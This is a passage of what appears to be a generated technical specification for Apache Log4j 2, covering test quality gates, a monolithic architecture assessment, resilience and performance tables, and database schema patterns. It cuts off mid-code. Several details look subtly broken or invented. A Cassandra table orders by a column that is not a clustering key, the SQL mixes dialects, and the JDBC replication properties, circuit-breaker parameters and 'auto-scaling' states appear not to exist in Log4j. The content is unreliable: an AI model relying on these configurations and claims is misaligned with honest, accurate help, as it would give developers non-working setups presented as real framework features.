        <log4j2.junit.fileCleanerSleepPeriodMillis>1000</log4j2.junit.fileCleanerSleepPeriodMillis>
    </systemPropertyVariables>
</configuration>
```

### 6.6.3 QUALITY METRICS

#### 6.6.3.1 Code Coverage Targets

Comprehensive coverage metrics ensure thorough validation across all module types:

| Coverage Type | Target Threshold | Enforcement Level | Measurement Tool |
|---|---|---|---|
| **Line Coverage** | 75% | Build warning | JaCoCo |
| **Branch Coverage** | 70% | Build warning | JaCoCo |
| **Method Coverage** | 80% | Informational | JaCoCo |
| **Class Coverage** | 90% | Informational | JaCoCo |

#### 6.6.3.2 Test Success Rate Requirements

#### Quality Gates

```mermaid
graph TB
    subgraph "Quality Gate Flow"
        A[Code Submission] --> B[Static Analysis]
        B --> C[Checkstyle]
        B --> D[SpotBugs]
        B --> E[RAT License]
        
        C --> F{Pass?}
        D --> F
        E --> F
        
        F -->|Yes| G[Unit Tests]
        F -->|No| H[Build Failure]
        
        G --> I{>98% Pass?}
        I -->|Yes| J[Integration Tests]
        I -->|No| H
        
        J --> K{>95% Pass?}
        K -->|Yes| L[Performance Tests]
        K -->|No| H
        
        L --> M[API Compatibility]
        M --> N[RevAPI Check]
        N --> O{Compatible?}
        
        O -->|Yes| P[Build Success]
        O -->|No| H
    end
```

#### 6.6.3.3 Performance Test Thresholds

Performance validation ensures sustained high-performance operation:

| Metric Category | Baseline Target | Warning Threshold | Critical Threshold |
|---|---|---|---|
| **Sync Throughput** | 2M events/second | <1.5M events/second | <1M events/second |
| **Async Throughput** | 5M events/second | <4M events/second | <3M events/second |
| **P99 Latency** | 1 millisecond | >2 milliseconds | >5 milliseconds |
| **Memory Allocation** | <1KB per event | >2KB per event | >5KB per event |

#### 6.6.3.4 Documentation Requirements

Comprehensive documentation standards ensure maintainable test infrastructure:

- **Test JavaDoc**: Required for all public test utilities and helper classes
- **Test Categories**: Documented purpose and scope for each test category
- **Configuration Files**: Inline comments explaining test scenarios and expected behaviors
- **Performance Baselines**: Historical tracking in `log4j-perf/README.md`

### 6.6.4 REQUIRED DIAGRAMS

#### 6.6.4.1 Test Execution Flow

```mermaid
flowchart TD
    A[Developer Push] --> B[GitHub Actions Trigger]
    B --> C[Environment Setup]
    
    C --> D[JDK 8 Setup]
    C --> E[JDK 11 Setup]
    C --> F[JDK 17 Setup]
    
    D --> G[Maven Toolchains]
    E --> G
    F --> G
    
    G --> H[Dependency Resolution]
    H --> I[Maven Cache Check]
    
    I --> J[Compilation Phase]
    J --> K[Static Analysis]
    
    K --> L[Unit Test Execution]
    L --> M[Test Category Filtering]
    
    M --> N[Core API Tests]
    M --> O[Appender Tests]
    M --> P[Performance Tests]
    
    N --> Q[Test Reporting]
    O --> Q
    P --> Q
    
    Q --> R[Coverage Analysis]
    R --> S[Report Generation]
    
    S --> T[GitHub Checks]
    T --> U[PR Status Update]
    
    U --> V{All Gates Pass?}
    V -->|Yes| W[Merge Allowed]
    V -->|No| X[Review Required]
```

#### 6.6.4.2 Test Environment Architecture

```mermaid
graph TB
    subgraph "Test Infrastructure"
        A[Test Executor] --> B[Resource Manager]
        B --> C[Port Allocator]
        B --> D[Temp Directory Manager]
        B --> E[Database Manager]
        
        C --> F[Dynamic Port Assignment]
        D --> G[Isolated Test Directories]
        E --> H[In-Memory Databases]
        
        I[Test Categories] --> J[Unit Tests]
        I --> K[Integration Tests]
        I --> L[Performance Tests]
        
        J --> M[Isolated Execution]
        K --> N[Service Dependencies]
        L --> O[JMH Harness]
        
        P[Test Utilities] --> Q[LoggerContextRule]
        P --> R[AvailablePortFinder]
        P --> S[StatusLoggerListener]
        
        Q --> T[Context Lifecycle]
        R --> U[Network Isolation]
        S --> V[Test Diagnostics]
    end
```

#### 6.6.4.3 Test Data Flow Diagrams

```mermaid
graph TB
    subgraph "Test Data Lifecycle"
        A[Test Configuration] --> B[Resource Loading]
        B --> C[Configuration Parser]
        C --> D[Test Context Creation]
        
        D --> E[Logger Instantiation]
        E --> F[Event Generation]
        F --> G[Appender Processing]
        
        G --> H[Output Validation]
        H --> I[Assertion Execution]
        I --> J[Result Collection]
        
        K[Test Fixtures] --> L[XML Configurations]
        K --> M[JSON Configurations]
        K --> N[YAML Configurations]
        
        L --> B
        M --> B
        N --> B
        
        O[Mock Services] --> P[SMTP Mock Server]
        O --> Q[JMS Mock Broker]
        O --> R[HTTP Mock Endpoints]
        
        P --> G
        Q --> G
        R --> G
    end
```

### 6.6.5 SECURITY TESTING REQUIREMENTS

#### 6.6.5.1 Security Validation Framework

Security testing ensures protection against common vulnerabilities:

- **Input Validation**: Configuration parsing security and injection prevention
- **Dependency Scanning**: Automated vulnerability detection via Dependabot
- **Static Analysis**: SpotBugs with FindSecBugs for security pattern detection
- **Network Security**: SSL/TLS configuration validation and certificate testing

#### 6.6.5.2 Security Test Categories

| Security Category | Test Implementation | Validation Scope | Tools Used |
|---|---|---|---|
| **Input Sanitization** | Malformed configuration tests | XML/JSON/YAML parsing | Custom test cases |
| **Dependency Security** | Vulnerability scanning | All dependencies | Dependabot, GitHub Security |
| **Network Security** | SSL/TLS validation | Network appenders | SSL test certificates |
| **Access Control** | JMX security testing | Management interfaces | JMX authentication tests |

### 6.6.6 RESOURCE REQUIREMENTS

#### 6.6.6.1 Test Environment Resource Allocation

| Resource Type | Minimum Allocation | Recommended Allocation | Maximum Capacity |
|---|---|---|---|
| **Memory** | 2GB heap | 4GB heap | 8GB heap |
| **CPU** | 2 cores | 4 cores | 8 cores |
| **Disk** | 10GB storage | 20GB storage | 50GB storage |
| **Network** | 1Gbps bandwidth | 1Gbps bandwidth | 10Gbps bandwidth |

#### 6.6.6.2 Test Execution Time Budgets

Performance targets ensure efficient development workflows:

- **Unit Tests**: <10 minutes for complete suite
- **Integration Tests**: <15 minutes for complete suite
- **Performance Tests**: <20 minutes for benchmarking suite
- **Full Test Suite**: <30 minutes across all platforms

#### References

**Files Examined:**
- `log4j-core-its/pom.xml` - Integration test module configuration and test categories
- `log4j-perf/` - Performance testing module with JMH benchmarks
- `.github/workflows/` - GitHub Actions CI/CD pipeline configuration
- `pom.xml` - Maven build configuration with toolchains and multi-module structure

**Sections Referenced:**
- Section 3.2 Frameworks & Libraries - Testing framework alignment and dependency management
- Section 3.6 Development & Deployment - CI/CD integration and build automation
- Section 6.1 Core Services Architecture - Component architecture and plugin system understanding
- Section 6.5 Monitoring and Observability - Performance monitoring and JMX integration alignment

**Testing Tools and Frameworks:**
- JUnit 4 (4.13.2) and JUnit 5 (5.7.2) - Primary testing frameworks
- Mockito (3.11.2) - Mocking framework for unit test isolation
- JaCoCo - Code coverage measurement and reporting
- JMH - Java Microbenchmark Harness for performance testing
- Maven Surefire/Failsafe - Test execution and reporting plugins

## 6.1 CORE SERVICES ARCHITECTURE

### 6.1.1 Applicability Assessment

**Core Services Architecture is not applicable for Apache Log4j 2** as it is designed as a monolithic logging framework that operates as an embedded library within Java applications, not as a distributed system with microservices or distinct service components. 

#### 6.1.1.1 Architectural Classification

Apache Log4j 2 implements a **layered monolithic architecture** with plugin-based extensibility rather than a service-oriented architecture. The framework functions as:

- **Embedded Library**: Operates within the host application's process space
- **Single Deployment Unit**: Distributed as JAR files integrated into applications
- **Shared Memory Architecture**: Components communicate through direct method invocation
- **Thread-Local Processing**: No inter-process communication required

#### 6.1.1.2 Why Service Architecture Patterns Are Inapplicable

| Traditional Service Pattern | Log4j 2 Reality | Architectural Implication |
|---|---|---|
| **Service Boundaries** | Plugin component boundaries | In-process module separation |
| **Inter-Service Communication** | Direct method calls and shared memory | No network communication overhead |
| **Service Discovery** | Annotation-based plugin discovery | Compile-time and runtime registration |
| **Load Balancing** | Thread-based load distribution | Single-process thread management |

### 6.1.2 INTERNAL COMPONENT ARCHITECTURE

While not implementing services architecture, Apache Log4j 2 features sophisticated internal component organization that provides similar benefits through different architectural patterns.

#### 6.1.2.1 Component Boundaries and Responsibilities

```mermaid
graph TB
    subgraph "API Layer"
        A[LogManager] --> B[Logger Interface]
        B --> C[Message Interface]
        C --> D[Level Interface]
    end
    
    subgraph "Core Implementation Layer"
        E[LoggerContext] --> F[Configuration]
        F --> G[Plugin Registry]
        G --> H[Component Factory]
        
        E --> I[Logger Implementation]
        I --> J[LoggerConfig]
        J --> K[Filter Chain]
        K --> L[Appender Manager]
    end
    
    subgraph "Plugin Framework"
        M[Plugin Annotation Processor] --> N[Plugin Metadata]
        N --> O[Plugin Builder]
        O --> P[Plugin Instance]
        
        P --> Q[Appender Plugins]
        P --> R[Layout Plugins]
        P --> S[Filter Plugins]
        P --> T[Lookup Plugins]
    end
    
    subgraph "Async Processing Layer"
        U[Ring Buffer] --> V[Event Handler]
        V --> W[Batch Processor]
        W --> X[Background Thread]
    end
    
    A --> E
    L --> Q
    I --> U
    X --> L
```

#### 6.1.2.2 Internal Communication Patterns

| Communication Type | Implementation | Performance Characteristic | Use Case |
|---|---|---|---|
| **Synchronous Call** | Direct method invocation | <100 nanoseconds | Configuration access, simple logging |
| **Asynchronous Queue** | LMAX Disruptor ring buffer | <10 microseconds enqueue | High-throughput logging scenarios |
| **Event Bus** | Plugin lifecycle notifications | <1 microsecond | Configuration reload, component lifecycle |
| **Shared Memory** | ThreadLocal contexts | <50 nanoseconds | Per-thread state management |

#### 6.1.2.3 Component Discovery and Registration

```mermaid
sequenceDiagram
    participant App as Application
    participant PM as Plugin Manager
    participant APT as Annotation Processor
    participant Meta as Metadata Cache
    participant Factory as Component Factory
    
    Note over APT: Compile Time
    APT->>Meta: Generate Plugin Metadata
    Meta->>Meta: Cache Plugin Definitions
    
    Note over App: Runtime
    App->>PM: Initialize Plugin System
    PM->>Meta: Load Plugin Metadata
    Meta->>PM: Return Plugin Registry
    PM->>Factory: Create Plugin Instances
    Factory->>Factory: Instantiate Components
    Factory->>PM: Return Component References
```

### 6.1.3 SCALABILITY DESIGN

#### 6.1.3.1 Horizontal Scaling Approach

Apache Log4j 2 achieves scalability through **thread-level parallelism** and **asynchronous processing** rather than horizontal service scaling:

```mermaid
flowchart TB
    subgraph "Application Threads"
        T1[Thread 1] --> RB[Ring Buffer]
        T2[Thread 2] --> RB
        T3[Thread 3] --> RB
        TN[Thread N] --> RB
    end
    
    subgraph "LMAX Disruptor Architecture"
        RB --> |Lock-Free Access| DS[Disruptor Sequence]
        DS --> |Batch Processing| BT[Background Thread]
        BT --> |Event Batching| EB[Event Batch]
    end
    
    subgraph "Output Processing"
        EB --> A1[Appender 1]
        EB --> A2[Appender 2]
        EB --> AN[Appender N]
        
        A1 --> |Parallel Write| O1[Output 1]
        A2 --> |Parallel Write| O2[Output 2]
        AN --> |Parallel Write| ON[Output N]
    end
    
    subgraph "Backpressure Handling"
        RB -.->|Buffer Full| QFP{Queue Full Policy}
        QFP -->|BLOCK| W[Wait for Space]
        QFP -->|SYNCHRONOUS| S[Direct Processing]
        QFP -->|DISCARD| D[Drop Events]
    end
```

#### 6.1.3.2 Performance Scaling Characteristics

| Scaling Factor | Implementation | Performance Impact | Configuration |
|---|---|---|---|
| **Thread Count** | Multiple producer threads | Linear throughput scaling | Application thread pool size |
| **Ring Buffer Size** | Power-of-2 buffer sizing | Reduced contention | bufferSize (default: 256K) |
| **Batch Size** | Event batching | Improved I/O efficiency | Automatic batch optimization |
| **Appender Parallelism** | Concurrent output processing | Reduced latency | Multiple appender configuration |

#### 6.1.3.3 Auto-Scaling Mechanisms

```mermaid
stateDiagram-v2
    [*] --> Monitoring: Initialize
    Monitoring --> Normal: Buffer < 50%
    Normal --> Monitoring: Check Buffer
    
    Monitoring --> Warning: Buffer > 50%
    Warning --> Monitoring: Buffer Decreased
    Warning --> Critical: Buffer > 80%
    
    Critical --> Blocking: Buffer > 90%
    Critical --> Monitoring: Buffer Decreased
    
    Blocking --> Synchronous: Buffer = 100%
    Synchronous --> Monitoring: Buffer Available
    
    Normal --> Optimized: Low Latency Mode
    Optimized --> Normal: Standard Mode
```

#### 6.1.3.4 Capacity Planning Guidelines

| Resource Type | Baseline Allocation | Load Scaling | Maximum Capacity |
|---|---|---|---|
| **Memory** | 64MB heap allocation | +128MB per 1M events/sec | 1GB recommended maximum |
| **CPU** | 1 background thread | +1 thread per LoggerContext | 4-8 threads maximum |
| **I/O** | 8KB network buffers | +8KB per appender | 64KB maximum buffer |
| **Disk** | 100MB log file size | Configurable rotation | Unlimited with rotation |

### 6.1.4 RESILIENCE PATTERNS

#### 6.1.4.1 Fault Tolerance Architecture

```mermaid
graph TB
    subgraph "Primary Processing Path"
        A[Log Event] --> B[Filter Chain]
        B --> C[Layout Processing]
        C --> D[Primary Appender]
        D --> E{Write Success?}
        E -->|Yes| F[Complete]
        E -->|No| G[Error Handler]
    end
    
    subgraph "Resilience Layer"
        G --> H[Retry Policy]
        H --> I{Retry Count < Max?}
        I -->|Yes| J[Exponential Backoff]
        J --> K[Retry Attempt]
        K --> D
        
        I -->|No| L[Circuit Breaker]
        L --> M{Circuit State}
        M -->|Closed| N[Try Primary]
        M -->|Open| O[Failover Appender]
        M -->|Half-Open| P[Test Connection]
        
        P -->|Success| Q[Reset Circuit]
        P -->|Failure| R[Keep Circuit Open]
    end
    
    subgraph "Fallback Mechanisms"
        O --> S{Failover Available?}
        S -->|Yes| T[Secondary Appender]
        S -->|No| U[Console Fallback]
        T --> V{Success?}
        V -->|Yes| F
        V -->|No| U
        U --> W[Log to stderr]
    end
```

#### 6.1.4.2 Network Resilience Implementation

| Pattern | Implementation | Configuration Parameters | Behavior |
|---|---|---|---|
| **Connection Retry** | Exponential backoff with jitter | `reconnectionDelayMillis`, `maxReconnectionDelayMillis` | Automatic reconnection on failure |
| **Circuit Breaker** | Failure rate monitoring | `failureThreshold`, `timeout`, `halfOpenThreshold` | Prevents cascading failures |
| **Connection Pooling** | Managed connection lifecycle | `maxConnections`, `connectionTimeout` | Resource optimization |
| **Timeout Control** | Configurable operation timeouts | `connectTimeoutMillis`, `readTimeoutMillis` | Prevents hang scenarios |

#### 6.1.4.3 Data Consistency and Recovery

```mermaid
sequenceDiagram
    participant App as Application
    participant Logger as Logger
    participant Buffer as Ring Buffer
    participant Appender as Appender
    participant Backup as Backup Appender
    
    App->>Logger: Log Event
    Logger->>Buffer: Enqueue Event
    Buffer->>Appender: Process Event
    
    Appender->>Appender: Attempt Write
    alt Write Success
        Appender->>Buffer: Acknowledge Success
        Buffer->>Logger: Complete
    else Write Failure
        Appender->>Appender: Retry Logic
        alt Retry Success
            Appender->>Buffer: Acknowledge Success
        else Max Retries Exceeded
            Appender->>Backup: Failover
            Backup->>Buffer: Acknowledge Backup Write
        end
    end
    
    Buffer->>Logger: Final Status
    Logger->>App: Return Control
```

#### 6.1.4.4 Disaster Recovery Procedures

| Recovery Scenario | Detection Method | Recovery Action | Recovery Time |
|---|---|---|---|
| **Network Partition** | Connection timeout | Activate failover appender | <5 seconds |
| **Disk Full** | IOException handling | Switch to console logging | <1 second |
| **Configuration Corruption** | Validation failure | Revert to previous config | <10 seconds |
| **Memory Exhaustion** | OutOfMemoryError | Activate synchronous mode | <1 second |

### 6.1.5 PERFORMANCE OPTIMIZATION TECHNIQUES

#### 6.1.5.1 Garbage-Free Operation

```mermaid
flowchart LR
    subgraph "Object Lifecycle"
        A[Object Pool] --> B[Acquire Object]
        B --> C[Use Object]
        C --> D[Clear Object]
        D --> E[Return to Pool]
        E --> A
    end
    
    subgraph "Reusable Components"
        F[LogEvent Pool] --> G[StringBuilder Pool]
        G --> H[Encoder Pool]
        H --> I[Buffer Pool]
        I --> F
    end
    
    subgraph "Thread Local Storage"
        J[ThreadLocal Context] --> K[Per-Thread Buffer]
        K --> L[Per-Thread Encoder]
        L --> M[Per-Thread Formatter]
        M --> J
    end
```

#### 6.1.5.2 Performance Characteristics

| Operation Type | Latency Target | Measured Performance | Optimization Technique |
|---|---|---|---|
| **Synchronous Log** | <100 microseconds | 50-100 microseconds | Direct method calls |
| **Async Enqueue** | <10 microseconds | 1-10 microseconds | Lock-free ring buffer |
| **Format Processing** | <50 microseconds | 20-50 microseconds | Cached formatters |
| **Network Write** | <1 millisecond | 0.5-2 milliseconds | Connection pooling |

#### 6.1.5.3 Configuration Examples

#### High-Performance Async Configuration
```xml
<Configuration>
    <Properties>
        <Property name="LOG_PATTERN">%d{yyyy-MM-dd HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n</Property>
    </Properties>
    
    <Appenders>
        <RollingFile name="AsyncFile" fileName="logs/app.log"
                     filePattern="logs/app-%d{yyyy-MM-dd}-%i.log.gz">
            <PatternLayout pattern="${LOG_PATTERN}"/>
            <Policies>
                <TimeBasedTriggeringPolicy />
                <SizeBasedTriggeringPolicy size="100 MB"/>
            </Policies>
            <DefaultRolloverStrategy max="10"/>
        </RollingFile>
    </Appenders>
    
    <Loggers>
        <AsyncLogger name="com.example" level="INFO" additivity="false">
            <AppenderRef ref="AsyncFile"/>
        </AsyncLogger>
        
        <AsyncRoot level="WARN">
            <AppenderRef ref="AsyncFile"/>
        </AsyncRoot>
    </Loggers>
</Configuration>
```

#### Network Resilience Configuration
```xml
<Configuration>
    <Appenders>
        <Socket name="PrimarySocket" host="primary.log.example.com" port="4560"
                protocol="TCP" connectTimeoutMillis="30000"
                reconnectionDelayMillis="5000" maxReconnectionDelayMillis="300000">
            <JsonLayout complete="false" compact="true"/>
        </Socket>
        
        <Socket name="SecondarySocket" host="secondary.log.example.com" port="4560"
                protocol="TCP" connectTimeoutMillis="30000"
                reconnectionDelayMillis="5000" maxReconnectionDelayMillis="300000">
            <JsonLayout complete="false" compact="true"/>
        </Socket>
        
        <Failover name="NetworkFailover" primary="PrimarySocket">
            <Failovers>
                <AppenderRef ref="SecondarySocket"/>
            </Failovers>
        </Failover>
        
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>
    </Appenders>
    
    <Loggers>
        <Root level="INFO">
            <AppenderRef ref="NetworkFailover"/>
            <AppenderRef ref="Console" level="ERROR"/>
        </Root>
    </Loggers>
</Configuration>
```

### 6.1.6 MONITORING AND OBSERVABILITY

#### 6.1.6.1 Internal Metrics and Monitoring

| Metric Category | Key Indicators | Monitoring Method | Alert Thresholds |
|---|---|---|---|
| **Throughput** | Events/second, bytes/second | JMX MBeans | <50% of baseline |
| **Latency** | Average/p99 processing time | Flight recorder | >5x baseline |
| **Buffer Health** | Ring buffer utilization | Custom metrics | >80% utilization |
| **Error Rate** | Failed writes, exceptions | Error counters | >1% failure rate |

#### 6.1.6.2 Integration with Observability Platforms

```mermaid
graph TB
    subgraph "Log4j 2 Internal"
        A[LoggerContext] --> B[StatusLogger]
        B --> C[JMX Beans]
        C --> D[Metrics Collection]
    end
    
    subgraph "External Monitoring"
        E[JMX Exporter] --> F[Prometheus]
        F --> G[Grafana Dashboard]
        
        H[Flight Recorder] --> I[JVM Insights]
        I --> J[Performance Analysis]
        
        K[Status Messages] --> L[Log Aggregation]
        L --> M[Alerting System]
    end
    
    D --> E
    D --> H
    B --> K
```

### 6.1.7 SUMMARY

Apache Log4j 2's architectural approach demonstrates that sophisticated scalability, resilience, and performance can be achieved without implementing traditional microservices patterns. The framework provides:

#### 6.1.7.1 Architectural Strengths

- **High Performance**: Sub-millisecond latency with >1M events/second throughput
- **Resilience**: Comprehensive error handling and failover mechanisms
- **Scalability**: Thread-level parallelism and asynchronous processing
- **Extensibility**: Plugin-based architecture for component customization
- **Maintainability**: Clear separation of concerns and modular design

#### 6.1.7.2 Design Philosophy

The framework's monolithic architecture optimized for embedded library usage provides enterprise-grade capabilities while avoiding the complexity overhead of distributed systems. This approach is particularly effective for logging frameworks where:

- **Latency Requirements**: Sub-millisecond response times are critical
- **Deployment Simplicity**: Single JAR deployment reduces operational complexity
- **Resource Efficiency**: Shared memory access eliminates network serialization overhead
- **Reliability**: In-process communication eliminates network partition scenarios

#### References

**Files Examined:**
- `log4j-core/src/main/java/org/apache/logging/log4j/core/LoggerContext.java` - Central lifecycle manager and configuration container
- `log4j-core/src/main/java/org/apache/logging/log4j/core/async/AsyncLogger.java` - Asynchronous logger implementation
- `log4j-core/src/main/java/org/apache/logging/log4j/core/async/RingBufferLogEvent.java` - LMAX Disruptor integration
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/TcpSocketManager.java` - Network transport management
- `log4j-core/src/main/java/org/apache/logging/log4j/core/net/SslSocketManager.java` - SSL/TLS transport implementation

**Technical Specification Sections:**
- Section 1.2 System Overview - System context and capabilities
- Section 5.1 High-Level Architecture - Overall architectural approach

## 6.2 DATABASE DESIGN

### 6.2.1 Database Architecture Overview

Apache Log4j 2 implements a **pluggable database architecture** that supports multiple database technologies through specialized appender modules. Rather than mandating specific database schemas, the framework provides flexible patterns and frameworks enabling users to define custom data models tailored to their logging requirements. The database design emphasizes performance, scalability, and fault tolerance while maintaining compatibility across diverse storage backends.

#### 6.2.1.1 Database Integration Strategy

The framework employs a **modular database integration approach** through dedicated modules:

- **log4j-jdbc-dbcp2**: Relational database support with production-grade connection pooling
- **log4j-jpa**: Object-relational mapping through JPA 2.1 specification
- **log4j-mongodb3/mongodb4**: Document database integration with MongoDB drivers
- **log4j-cassandra**: Distributed column-family database support
- **log4j-couchdb**: Document database integration via LightCouch client

This architecture enables seamless database technology switching without impacting application logging code, supporting both relational and NoSQL storage paradigms based on operational requirements.

#### 6.2.1.2 Schema Design Philosophy

The database design follows a **schema-agnostic approach** where:

- **Flexible Data Models**: Users define table structures and document schemas based on specific logging requirements
- **Extensible Column Mapping**: Dynamic mapping between LogEvent properties and database columns
- **Type Safety**: Automatic type conversion and validation for database-specific data types
- **Schema Evolution**: Support for adding new fields without breaking existing configurations

### 6.2.2 Schema Design

#### 6.2.2.1 Entity Relationships

```mermaid
erDiagram
    LogEvent {
        string id PK
        timestamp eventDate
        string level
        string loggerName
        string message
        string threadName
        string exception
        map mdc
        list ndc
        string markerName
    }
    
    ColumnMapping {
        string name PK
        string type
        string pattern
        string literal
        boolean isEventTimestamp
        boolean isUnicode
        boolean isClob
    }
    
    DatabaseConnection {
        string connectionString PK
        string driverClassName
        string username
        int maxConnections
        int maxConnLifetimeMillis
        string validationQuery
    }
    
    LogEvent ||--o{ ColumnMapping : "maps to"
    DatabaseConnection ||--o{ LogEvent : "stores"
```

#### 6.2.2.2 Relational Database Schema Patterns

#### JDBC Appender Schema Structure

**Primary Log Entry Table Pattern**:
```sql
CREATE TABLE application_logs (
    id INTEGER IDENTITY PRIMARY KEY,
    event_date TIMESTAMP NOT NULL,
    level VARCHAR(10) NOT NULL,
    logger_name VARCHAR(255) NOT NULL,
    message TEXT,
    thread_name VARCHAR(100),
    exception_text CLOB,
    marker_name VARCHAR(100),
    mdc_data CLOB,
    ndc_data CLOB,
    request_id VARCHAR(50),
    user_id VARCHAR(50),
    application_name VARCHAR(100) DEFAULT 'log4j-app',
    hostname VARCHAR(100),
    INDEX idx_event_date (event_date),
    INDEX idx_level (level),
    INDEX idx_logger (logger_name),
    INDEX idx_request_id (request_id)
);
```

**Column Mapping Configuration**:
| Column Name | Data Type | LogEvent Property | Conversion Pattern | Constraints |
|-------------|-----------|-------------------|-------------------|-------------|
| event_date | TIMESTAMP | eventDate | ISO-8601 format | NOT NULL |
| level | VARCHAR(10) | level | Enum string value | NOT NULL |
| logger_name | VARCHAR(255) | loggerName | Direct mapping | NOT NULL |
| message | TEXT | message | Formatted message | Unlimited length |

#### JPA Entity Design Patterns

**Base Entity Structure**:
```java
@Entity
@Table(name = "jpa_log_entries")
public class LogEntry extends AbstractLogEventWrapperEntity {
    @Id
    @GeneratedValue(strategy = GenerationType.IDENTITY)
    private Long id;
    
    @Temporal(TemporalType.TIMESTAMP)
    @Column(name = "event_date", nullable = false)
    private Date eventDate;
    
    @Convert(converter = LevelAttributeConverter.class)
    @Column(name = "level", length = 10, nullable = false)
    private Level level;
    
    @Column(name = "logger_name", length = 255, nullable = false)
    private String loggerName;
    
    @Convert(converter = MessageAttributeConverter.class)
    @Column(name = "message", columnDefinition = "TEXT")
    private Message message;
    
    @Convert(converter = ThrowableAttributeConverter.class)
    @Column(name = "exception_text", columnDefinition = "CLOB")
    private Throwable thrown;
    
    @Convert(converter = ContextMapAttributeConverter.class)
    @Column(name = "mdc_data", columnDefinition = "CLOB")
    private Map<String, String> contextMap;
}
```

**Specialized Converters**:
- **LevelAttributeConverter**: Converts Log4j Level enum to database string
- **MessageAttributeConverter**: Serializes Message interface to string representation
- **ThrowableAttributeConverter**: Converts exceptions to formatted stack traces
- **ContextMapAttributeConverter**: Handles MDC as JSON or key-value pairs

#### 6.2.2.3 NoSQL Database Schema Patterns

#### MongoDB Document Structure

**Primary Document Schema**:
```javascript
{
  "_id": ObjectId("..."),
  "timestamp": ISODate("2024-01-01T12:00:00.000Z"),
  "level": "INFO",
  "logger": "com.example.application.Service",
  "message": "User authentication successful",
  "thread": "http-nio-8080-exec-1",
  "marker": "SECURITY",
  "mdc": {
    "userId": "user123",
    "requestId": "req-abc-123",
    "sessionId": "session-xyz-789"
  },
  "ndc": ["WebController", "AuthenticationService"],
  "exception": null,
  "hostname": "app-server-01",
  "applicationName": "user-service"
}
```

**Index Strategy**:
```javascript
// Compound indexes for common query patterns
db.logs.createIndex({ "timestamp": 1, "level": 1 });
db.logs.createIndex({ "logger": 1, "timestamp": 1 });
db.logs.createIndex({ "mdc.userId": 1, "timestamp": 1 });
db.logs.createIndex({ "mdc.requestId": 1 });

// TTL index for automatic document expiration
db.logs.createIndex({ "timestamp": 1 }, { expireAfterSeconds: 2592000 }); // 30 days
```

#### Cassandra Table Design

**Primary Table Schema**:
```sql
CREATE TABLE IF NOT EXISTS logs (
    id timeuuid PRIMARY KEY,
    timeid timeuuid,
    message text,
    level text,
    marker text,
    logger text,
    timestamp timestamp,
    thread text,
    mdc map<text, text>,
    ndc list<text>,
    exception text
) WITH CLUSTERING ORDER BY (timeid DESC)
  AND compaction = {'class': 'TimeWindowCompactionStrategy'}
  AND gc_grace_seconds = 86400;
```

**Partitioning Strategy**:
- **Time-based Partitioning**: Partition by date for efficient time-range queries
- **Logger-based Partitioning**: Secondary partitioning by logger name for application-specific queries
- **Composite Keys**: TimeUUID ensures uniqueness and natural ordering

#### 6.2.2.4 Indexing Strategy

#### Relational Database Indexes

**Primary Indexes**:
- **Temporal Indexes**: `CREATE INDEX idx_event_date ON logs(event_date DESC)`
- **Level Indexes**: `CREATE INDEX idx_level ON logs(level, event_date DESC)`
- **Logger Indexes**: `CREATE INDEX idx_logger ON logs(logger_name, event_date DESC)`
- **Composite Indexes**: `CREATE INDEX idx_logger_level ON logs(logger_name, level, event_date DESC)`

**Performance Considerations**:
- **Covering Indexes**: Include frequently queried columns in index definition
- **Partial Indexes**: Filter indexes for specific log levels or date ranges
- **Maintenance**: Regular index statistics updates for optimal query planning

#### NoSQL Database Indexes

**MongoDB Index Strategy**:
- **Compound Indexes**: Combine timestamp, level, and logger for efficient filtering
- **Sparse Indexes**: Index only documents containing specific fields
- **Text Indexes**: Full-text search capabilities for log messages
- **TTL Indexes**: Automatic document expiration for log retention

**Cassandra Materialized Views**:
```sql
CREATE MATERIALIZED VIEW logs_by_level AS
SELECT * FROM logs
WHERE level IS NOT NULL AND id IS NOT NULL
PRIMARY KEY (level, timestamp, id);
```

#### 6.2.2.5 Partitioning Approach

#### Time-based Partitioning

**Relational Database Partitioning**:
```sql
-- PostgreSQL example
CREATE TABLE logs_2024_01 PARTITION OF logs
FOR VALUES FROM ('2024-01-01') TO ('2024-02-01');

CREATE TABLE logs_2024_02 PARTITION OF logs
FOR VALUES FROM ('2024-02-01') TO ('2024-03-01');
```

**Benefits**:
- **Query Performance**: Partition pruning for time-range queries
- **Maintenance Efficiency**: Parallel maintenance operations
- **Storage Management**: Easy archival of old partitions

#### Application-based Partitioning

**Logger-based Partitioning**:
- **Application Isolation**: Separate partitions for different application modules
- **Security Boundaries**: Partition-level access controls
- **Performance Isolation**: Prevent cross-application query interference

#### 6.2.2.6 Replication Configuration

#### Master-Slave Replication

**Configuration Pattern**:
```xml
<JdbcAppender name="DatabaseAppender">
    <DataSource>
        <Property name="url">jdbc:postgresql://master:5432/logs</Property>
        <Property name="readOnlyUrl">jdbc:postgresql://slave:5432/logs</Property>
        <Property name="replicationMode">readWriteSplit</Property>
    </DataSource>
</JdbcAppender>
```

#### NoSQL Replication

**MongoDB Replica Set**:
- **Primary/Secondary Model**: Automatic failover capabilities
- **Read Preference**: Configurable read routing to secondaries
- **Write Concern**: Configurable consistency levels

**Cassandra Multi-DC Replication**:
- **Network Topology Strategy**: Cross-datacenter replication
- **Consistency Levels**: Tunable consistency vs. availability
- **Repair Operations**: Automated anti-entropy processes

#### 6.2.2.7 Backup Architecture

#### Relational Database Backup Strategy

**Full Backup Pattern**:
```sql
-- PostgreSQL example
pg_dump --format=custom --compress=9 --file=logs_backup_$(date +%Y%m%d).dump logs_db
```

**Incremental Backup Strategy**:
- **Transaction Log Shipping**: Continuous log shipping to backup systems
- **Point-in-Time Recovery**: Restore to specific timestamps
- **Compression**: Minimize backup storage requirements

#### NoSQL Backup Strategies

**MongoDB Backup**:
- **mongodump**: Consistent point-in-time backups
- **Oplog Backup**: Continuous replication log backup
- **Sharded Cluster Backup**: Coordinated backup across shards

**Cassandra Backup**:
- **Snapshot Creation**: `nodetool snapshot` for consistent backups
- **Incremental Backups**: Continuous SSTable backup
- **Cross-DC Backup**: Replication-based backup strategy

### 6.2.3 Data Management

#### 6.2.3.1 Migration Procedures

#### Schema Migration Framework

**Version-based Migration System**:
```java
@Component
public class DatabaseMigrationManager {
    private final Map<String, MigrationScript> migrations = Map.of(
        "1.0.0", new InitialSchemaCreation(),
        "1.1.0", new AddIndexesMigration(),
